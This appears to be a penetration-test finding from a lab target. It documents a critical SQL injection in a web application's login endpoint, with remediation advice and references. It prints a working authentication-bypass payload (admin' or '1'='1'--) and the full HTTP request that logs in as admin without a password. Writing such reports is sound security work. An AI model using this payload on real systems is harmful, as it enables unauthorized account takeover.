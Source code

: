 ## Critical - SQL Injection


| Vulnerability Name      | SQL Injection |
| ----------- | ----------- |
| Severity     | Critical      |
| Exploitability   	| Hacker       |
| User Interaction  | Not required       |
| Attack Vector   	| Internet       |
| Affected Scope   	| http://192.168.46.10:3000/#/login       |


**Description**

SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

Username parameter in the login page is vulnerable to SQL injection.

**Impact**

The vulnerability allows to bypass the login page to login as any user including the admin without the password.

**Test Details**

Screenshots

![](screenshots/sql.png)


Payload

```
	admin' or '1'='1'--
```
Request
```
	POST /rest/user/login HTTP/1.1
	Host: 192.168.46.10:3000
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:92.0) Gecko/20100101 Firefox/92.0
	Accept: application/json, text/plain, */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Content-Type: application/json
	Content-Length: 49
	Origin: http://192.168.46.10:3000
	Connection: close
	Referer: http://192.168.46.10:3000/
	Cookie: language=en; welcomebanner_status=dismiss; continueCode=E3OzQenePWoj4zk293aRX8KbBNYEAo9GL5qO1ZDwp6JyVxgQMmrlv7npKLVy

	{"email":"admin' or '1'='1'--","password":"1234"}
	
Response

	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: *
	X-Content-Type-Options: nosniff
	X-Frame-Options: SAMEORIGIN
	Feature-Policy: payment 'self'
	Content-Type: application/json; charset=utf-8
	Content-Length: 831
	ETag: W/"33f-ncvYKqi8+0GW88YIH7i3xTrVgeY"
	Vary: Accept-Encoding
	Date: Fri, 01 Oct 2021 07:07:42 GMT
	Connection: close

	
```

**Remediation** 

- Most instances of SQL injection can be prevented by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

- Data sanitization. For more info, check references.

**References**

- https://portswigger.net/web-security/sql-injection

- https://blog.sqreen.com/preventing-sql-injection-in-node-js-and-other-vulnerabilities/

- https://javascript.plainenglish.io/sql-injection-attack-in-nodejs-a840893f228b

---

